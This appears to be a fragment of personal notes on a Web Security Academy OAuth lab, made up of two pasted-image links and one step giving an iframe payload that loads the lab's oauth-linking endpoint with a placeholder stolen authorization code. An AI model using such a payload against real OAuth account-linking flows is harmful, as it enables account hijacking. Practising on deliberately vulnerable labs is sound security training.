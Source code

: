 
![[Pasted image 20250707224557.png]]
![[Pasted image 20250707224339.png]]

1. `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>`
